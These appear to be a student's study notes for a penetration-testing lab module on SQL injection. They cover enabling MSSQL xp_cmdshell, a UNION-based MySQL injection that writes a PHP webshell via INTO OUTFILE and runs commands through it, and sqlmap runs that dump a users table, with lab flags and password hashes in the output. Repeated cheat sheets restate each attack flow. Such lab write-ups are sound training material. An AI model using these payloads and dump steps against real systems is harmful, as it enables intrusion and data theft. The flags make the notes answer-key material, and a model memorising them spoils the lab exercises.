

---
tags:
  - exam-practice
  - lab
---

# Labs


## 1. Connect to the MSSQL VM 1 and enable xp_cmdshell as showcased in this Learning Module. Which MSSQL configuration option needs to be enabled before xp_cmdshell can be turned on?


> [!note]- Screenshot
> ```
> In our database, the Administrator user already has the appropriate permissions.
> Let's enable xp_cmdshell by simulating an SQL injection via the impacket-
> mssalclient tool.
> 
> kaligkali:~§ impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-au
> 
> th
> 
> Impacket v@.9.24 - Copyright 2021 SecureAuth Corporation
> 
> SQL> EXECUTE sp_configure ‘show advanced options", 1;
> 
> [*] INFO(SQLO1\SQLEXPRESS): Line 185: Configuration option ‘show advanced option
> 
> s’ changed from @ to 1. Run the RECONFIGURE statement to install.
> 
> SQL> RECONFIGURES
> 
> SQL> EXECUTE sp_configure ‘xp_cndshell’, 15
> 
> [*] INFO(SQLO1\SQLEXPRESS): Line 185: Configuration option ‘xp_cmdshell’ changed
> 
> from @ to 1. Run the RECONFIGURE statement to install.
> 
> ‘SQL> RECONFIGURES
> 
> Listing 28 - Enabling xp_cmdshell feature
> 
> After logging in from our Kali VM to the MSSQL instance, we can enable show
> advanced options by setting its value to 1, then applying the changes to the
> running configuration via the RECONFIGURE statement. Next, we'll enable
> xp_cmdshell and apply the configuration again using RECONFIGURE.
> ```


## Answer: show advanced options


## 2. Connect to the MySQL VM 2 and repeat the steps illustrated in this section to manually exploit the UNION-based SQLi. Once you have obtained a webshell, gather the flag that is located in the same tmp folder.

HINT: 

Connect to the MySQL VM 2 and repeat the steps illustrated in this section to manually exploit the UNION-based SQLi. Once you have obtained a webshell, gather the flag that is located in the same tmp folder.
HINT
Determine the number of columns by using the ORDER BY clause.
Once you have determined the number of columns, use the UNION SELECT for simple code execution such as @@version.
Use the INTO OUTFILE to write a webshell to /var/www/html/tmp/.


The hint says:

## write a webshell to /var/www/html/tmp/


## Enumeration:

' UNION SELECT 1,2,3,4-- -

## Payload:

' UNION SELECT "<?php system($_GET['cmd']); ?>",NULL,NULL,NULL 
INTO OUTFILE '/var/www/html/tmp/shell.php'-- -

## Test Payload:

[http://192.168.105.19/tmp/shell.php?cmd=id](http://192.168.105.19/tmp/shell.php?cmd=id)
Result: uid=33(www-data) gid=33(www-data) groups=33(www-data) \N \N \N</body></html>

>
[http://192.168.105.19/tmp/shell.php?cmd=ls](http://192.168.105.19/tmp/shell.php?cmd=ls)
flag.txtshell.phptmpufazm.phpwebshell.php \N \N \N</body></html>

>
[http://192.168.105.19/tmp/shell.php?cmd=cat%20flag.txt](http://192.168.105.19/tmp/shell.php?cmd=cat%20flag.txt)
OS{77345c4e4143bc49c5cd48011b47a416} \N \N \N</body></html>


=== MySQL UNION SQLi → Webshell → Flag (Exam Cheat Sheet) ===

Goal:
Exploit UNION-based SQLi to write a webshell and retrieve a flag from /tmp

--------------------------------------------------

[1] Confirm SQL Injection

Test:
' 
'-- 
' OR 1=1--

→ Look for login bypass or different responses

--------------------------------------------------

[2] Determine Number of Columns (ORDER BY)

' ORDER BY 1-- -
' ORDER BY 2-- -
' ORDER BY 3-- -
' ORDER BY 4-- -
' ORDER BY 5-- -

→ When error occurs → previous number = column count

Example:
4 works ✅
5 fails ❌

Column count = 4

--------------------------------------------------

[3] Confirm UNION Works

' UNION SELECT 1,2,3,4-- -

→ If no error → UNION injection works

--------------------------------------------------

[4] Write Webshell (INTO OUTFILE)

Payload:
' UNION SELECT "<?php system($_GET['cmd']); ?>",NULL,NULL,NULL 
INTO OUTFILE '/var/www/html/tmp/shell.php'-- -

Notes:
- Match column count (4 columns)
- Use writable + web-accessible path
- /var/www/html/tmp/ ✅ (correct location)

--------------------------------------------------

[5] Access Webshell
[http://](http://)
<target-ip>/tmp/shell.php?cmd=id

Expected:
uid=33(www-data)

--------------------------------------------------

[6] Enumerate Files in /tmp
[http://](http://)
<target-ip>/tmp/shell.php?cmd=ls

Example Output:
flag.txt
shell.php
webshell.php

--------------------------------------------------

[7] Read Flag
[http://](http://)
<target-ip>/tmp/shell.php?cmd=cat%20flag.txt

Example:
OS{77345c4e4143bc49c5cd48011b47a416}

--------------------------------------------------

[8] Final Answer

OS{77345c4e4143bc49c5cd48011b47a416}

--------------------------------------------------

Key Notes (Exam Gold):

- UNION requires:
  ✔ Same number of columns
  ✔ Matching data types

- INTO OUTFILE:
  ✔ Can create files
  ❌ Cannot overwrite existing files

- Path selection:
  /tmp                     → writable ❌ not web-accessible
  /var/www/html            → web-accessible ❌ may not be writable
  /var/www/html/tmp        → ✅ writable + web-accessible (best)

- If "File already exists":
  ✔ Webshell already created → use it

--------------------------------------------------

Quick Attack Flow:

1. Find column count ✅
2. Confirm UNION ✅
3. Write webshell ✅
4. Access via browser ✅
5. Execute commands ✅
6. Read flag ✅

--------------------------------------------------

## Question 3: Connect to the MySQL VM 2 and automate the SQL injection discovery via sqlmap as shown in this section. Then dump the users table by abusing the time-based blind SQLi and find the flag that is stored in one of the table's records.


> [!note]- Screenshot
> ```
> Pretty Raw Hex swe
> 
> T POST / HITP/1.1
> 
> 2 Host: 192. 168. 105.16
> 
> 3 User-Agent: Mozilla/S.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101
> Firefox/140.0
> 
> 4 Accept: text/html, application/xhtnl-+xml, application/xml;q=0.9,*/*;q=0.8
> 
> 5 Accept-Language: en-US, en;q=0.5
> 
> 6 Accept-Encoding: gzip, deflate, br
> 
> 7 Content-Type: application/x-www- form-urlencoded
> 
> 8 Content-Length: 26
> 
> 9 Origin: http: //192.168. 105.16
> 
> 0 Connection: keep-alive
> 
> 1 Referer: http: //192.168.105.16/
> 
> 2 Cookie: PHPSESSID=2242347a3b4ec76a2b1ce14f.ce1 24068
> 
> 3 Upgrade-Insecure-Requests: 1
> 
> 4 Priority: u=0, i
> 
> S
> 
> 6 uide427+0R+1%301 6password=
> ```

save this to a TXT: (nano req.txt)

POST / HTTP/1.1
Host: 192.168.105.16
Content-Type: application/x-www-form-urlencoded

uid=1&password=test

sqlmap -r req.txt --batch

RESULT:

```sh
[04:55:34] [INFO] testing 'MySQL UNION query (random number) - 1 to 20 columns'
[04:55:38] [INFO] testing 'MySQL UNION query (NULL) - 21 to 40 columns'
[04:55:42] [INFO] testing 'MySQL UNION query (random number) - 21 to 40 columns'
[04:55:46] [INFO] testing 'MySQL UNION query (NULL) - 41 to 60 columns'
[04:55:50] [INFO] testing 'MySQL UNION query (random number) - 41 to 60 columns'
[04:55:54] [INFO] testing 'MySQL UNION query (NULL) - 61 to 80 columns'
[04:55:58] [INFO] testing 'MySQL UNION query (random number) - 61 to 80 columns'
[04:56:02] [INFO] testing 'MySQL UNION query (NULL) - 81 to 100 columns'
[04:56:06] [INFO] testing 'MySQL UNION query (random number) - 81 to 100 columns'
[04:56:10] [WARNING] in OR boolean-based injection cases, please consider usage of switch '--drop-set-cookie' if you experience any problems during data retrieval
POST parameter 'uid' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 370 HTTP(s) requests:
---
Parameter: uid (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)
    Payload: uid=1' OR NOT 7508=7508#&password=test

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: uid=1' AND GTID_SUBSET(CONCAT(0x716a6a7871,(SELECT (ELT(9567=9567,1))),0x7171707671),9567)-- jRKp&password=test

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: uid=1' AND (SELECT 5558 FROM (SELECT(SLEEP(5)))fMgX)-- EuHf&password=test
---
[04:56:10] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 22.04 (jammy)
web application technology: Apache 2.4.52, PHP
back-end DBMS: MySQL >= 5.6
[04:56:12] [INFO] fetched data logged to text files under '/home/neko/.local/share/sqlmap/output/192.168.105.19'
[04:56:12] [WARNING] your sqlmap version is outdated
```

Type: boolean-based blind ✅
Type: error-based ✅
Type: time-based blind ✅
back-end DBMS: MySQL >= 5.6

✔ sqlmap successfully exploited the SQL injection
✔ It found the injection point
✔ It identified working techniques
✔ YOU are ready to dump data

## NEXT ->

sqlmap -r req.txt --dbs --batch

```sh
[04:58:17] [INFO] fetching database names
[04:58:18] [INFO] retrieved: 'mysql'
[04:58:18] [INFO] retrieved: 'information_schema'
[04:58:18] [INFO] retrieved: 'performance_schema'
[04:58:18] [INFO] retrieved: 'sys'
[04:58:18] [INFO] retrieved: 'offsec'
available databases [5]:
[*] information_schema
[*] mysql
[*] offsec
[*] performance_schema
[*] sys

[04:58:18] [INFO] fetched data logged to text files under '/home/neko/.local/share/sqlmap/output/192.168.105.19'
[04:58:18] [WARNING] your sqlmap version is outdated

[*] ending @ 04:58:18 /2026-06-14/
```


## NEXT ->

sqlmap -r req.txt -D offsec --tables --batch

```sh
Database: offsec
[2 tables]
+-----------+
| customers |
| users     |
+-----------+

[04:59:46] [INFO] fetched data logged to text files under '/home/neko/.local/share/sqlmap/output/192.168.105.19'
[04:59:46] [WARNING] your sqlmap version is outdated

[*] ending @ 04:59:46 /2026-06-14/
```


## NEXT ->

sqlmap -r req.txt -D offsec -T users --dump --batch

```sh
[05:01:09] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 22.04 (jammy)
web application technology: Apache 2.4.52, PHP
back-end DBMS: MySQL >= 5.6
[05:01:09] [INFO] fetching columns for table 'users' in database 'offsec'
[05:01:09] [INFO] retrieved: 'id'
[05:01:09] [INFO] retrieved: 'mediumint unsigned'
[05:01:09] [INFO] retrieved: 'username'
[05:01:10] [INFO] retrieved: 'varchar(255)'
[05:01:10] [INFO] retrieved: 'password'
[05:01:10] [INFO] retrieved: 'varchar(255)'
[05:01:10] [INFO] retrieved: 'description'
[05:01:10] [INFO] retrieved: 'varchar(100)'
[05:01:10] [INFO] fetching entries for table 'users' in database 'offsec'
[05:01:11] [INFO] retrieved: 'this is the admin'
[05:01:11] [INFO] retrieved: '1'
[05:01:11] [INFO] retrieved: '21232f297a57a5a743894a0e4a801fc3'
[05:01:12] [INFO] retrieved: 'admin'
[05:01:12] [INFO] retrieved: 'try harder'
[05:01:12] [INFO] retrieved: '2'
[05:01:12] [INFO] retrieved: 'f9664ea1803311b35f81d07d8c9e072d'
[05:01:12] [INFO] retrieved: 'offsec'
[05:01:13] [INFO] retrieved: 'OS{1f85dd01ad25abf987f483fc8df66380}'
[05:01:13] [INFO] retrieved: '3'
[05:01:13] [INFO] retrieved: '5f4dcc3b5aa765d61d8327deb882cf99'
[05:01:13] [INFO] retrieved: 'boba'
[05:01:13] [INFO] retrieved: 'pew pew'
[05:01:14] [INFO] retrieved: '4'
[05:01:14] [INFO] retrieved: '5653c6b1f51852a6351ec69c8452abc6'
[05:01:14] [INFO] retrieved: 'han'
[05:01:14] [INFO] recognized possible password hashes in column 'passw
```

Answer = OS{1f85dd01ad25abf987f483fc8df66380}'

=== SQLMap – Automated Blind SQLi (Exam Cheat Sheet) ===

Goal:
Automate SQL injection discovery and dump the users table to find the flag.

--------------------------------------------------

[1] Identify Target URL

Example:
[http://192.168.105.19/index.php?uid=1](http://192.168.105.19/index.php?uid=1)
OR login form:
uid=1&password=test

--------------------------------------------------

[2] Basic SQLi Detection (sqlmap scan)

sqlmap -u "
[http://192.168.105.19/index.php?uid=1](http://192.168.105.19/index.php?uid=1)
" --batch

→ Detects injection automatically

--------------------------------------------------

[3] Force Time-Based Blind SQLi

sqlmap -u "
[http://192.168.105.19/index.php?uid=1](http://192.168.105.19/index.php?uid=1)
" \
--technique=T --batch

T = Time-based blind

--------------------------------------------------

[4] Enumerate Databases

sqlmap -u "
[http://192.168.105.19/index.php?uid=1](http://192.168.105.19/index.php?uid=1)
" \
--dbs --batch

--------------------------------------------------

[5] Select Database and List Tables

sqlmap -u "
[http://192.168.105.19/index.php?uid=1](http://192.168.105.19/index.php?uid=1)
" \
-D <database_name> --tables --batch

--------------------------------------------------

[6] Dump Users Table

sqlmap -u "
[http://192.168.105.19/index.php?uid=1](http://192.168.105.19/index.php?uid=1)
" \
-D <database_name> -T users --dump --batch

--------------------------------------------------

[7] Extract Flag

→ Look through dumped output

Example:
+----+------------------------------+
| id | username                     |
+----+------------------------------+
| 1  | admin                        |
| 2  | user                         |
| 3  | OS{FLAG_HERE}                |
+----+------------------------------+

--------------------------------------------------

[8] Final Answer

OS{FLAG_HERE}

--------------------------------------------------

Optional: If POST request is used (Burp required)

1. Capture request in Burp
2. Save to file (request.txt)

Run:

sqlmap -r request.txt --batch --dump

--------------------------------------------------

Key Options (EXAM GOLD):

--batch         → No prompts (automation)
--dbs           → List databases
--tables        → List tables
--dump          → Extract data
-D              → Select database
-T              → Select table
--technique=T   → Time-based blind SQLi

--------------------------------------------------

Quick Attack Flow:

1. Detect injection ✅
2. Force time-based (--technique=T) ✅
3. Enumerate DBs ✅
4. Find tables ✅
5. Dump users ✅
6. Extract flag ✅

--------------------------------------------------\


=== SQLMap – Time-Based Blind SQLi → Dump Users → Flag (Exam Cheat Sheet) ===

Goal:
Automate SQL injection discovery using sqlmap and dump the users table to retrieve the flag.

--------------------------------------------------

[1] Capture Request (Burp)

POST / HTTP/1.1
Host: <target-ip>
Content-Type: application/x-www-form-urlencoded

uid=1&password=test

Save as:
req.txt

--------------------------------------------------

[2] Run SQLMap Detection

sqlmap -r req.txt --batch

Result:
✔ Injection point found (uid)
✔ DBMS detected (MySQL)
✔ Injection types identified:
   - Boolean-based blind ✅
   - Error-based ✅
   - Time-based blind ✅

--------------------------------------------------

[3] Enumerate Databases

sqlmap -r req.txt --dbs --batch

Example Output:
information_schema
mysql
performance_schema
sys
offsec  ← TARGET DB

--------------------------------------------------

[4] Enumerate Tables

sqlmap -r req.txt -D offsec --tables --batch

Example Output:
customers
users  ← TARGET TABLE

--------------------------------------------------

[5] Dump Users Table

sqlmap -r req.txt -D offsec -T users --dump --batch

--------------------------------------------------

[6] Extract Flag

Look through output:

Example:
+----+----------+--------------------------------------+
| id | username | description                          |
+----+----------+--------------------------------------+
| 3  | offsec   | OS{1f85dd01ad25abf987f483fc8df66380} |
+----+----------+--------------------------------------+

--------------------------------------------------

[7] Final Answer

OS{1f85dd01ad25abf987f483fc8df66380}

--------------------------------------------------

Key Notes (Exam Gold):

- POST request → use:
  sqlmap -r req.txt

- Important flags:
  --batch     → no user prompts
  --dbs       → list databases
  --tables    → list tables
  --dump      → extract data
  -D          → specify database
  -T          → specify table

- Injection techniques identified:
  ✅ Boolean-based blind
  ✅ Error-based
  ✅ Time-based blind (required for this lab)

- sqlmap uses time-based payloads like:
  IF(condition, SLEEP(5), 0)

--------------------------------------------------

Quick Attack Flow:

1. Capture request (Burp) ✅
2. Run sqlmap detection ✅
3. Enumerate DBs ✅
4. Find target DB (offsec) ✅
5. List tables ✅
6. Dump users ✅
7. Extract flag ✅

--------------------------------------------------

## Visual Flow



> [!success] What success looks like
> MSSQL lab: enabling `show advanced options` lets you turn on `xp_cmdshell`. MySQL manual lab: the `INTO OUTFILE` shell works and `?cmd=cat flag.txt` returns `OS{77345c4e4143bc49c5cd48011b47a416}`. sqlmap lab: `--dump` of the offsec users table reveals the flag `OS{1f85dd01ad25abf987f483fc8df66380}` in the description column.

> [!danger] Common errors
> - Can't enable `xp_cmdshell` → enable `show advanced options` first, then `RECONFIGURE`.
> - INTO OUTFILE says "File already exists" → it cannot overwrite; the webshell is likely already there, just use it.
> - Wrong write path → `/tmp` is writable but not web-served, `/var/www/html` is served but often not writable; `/var/www/html/tmp/` is both.
> - sqlmap stalling on prompts → add `--batch`; scope with `-D offsec -T users` to avoid dumping the whole server.
> - URL-encoding spaces in `cmd` (use `%20`) and quote issues → see [[🔣 Encoding Reference]].
> Full list: [[⚠️ Common Errors & Troubleshooting]]

> [!tip] Beginner note
> These labs combine the earlier skills into actual code execution: write/enable a way to run commands, then read a file. The column count must match for the UNION webshell, and for sqlmap you point it at a saved request (`-r req.txt`) and let `--batch` answer the prompts for you.

---
%% graph-links %%
## Related
- [[Manual code execution]]
- [[Automating the attack]]

> [!info] Navigation
> Section: [[SQL Injection Attacks/Manual and automated code execution/_index|Manual and automated code execution]] · Home: [[🏠 Home]]

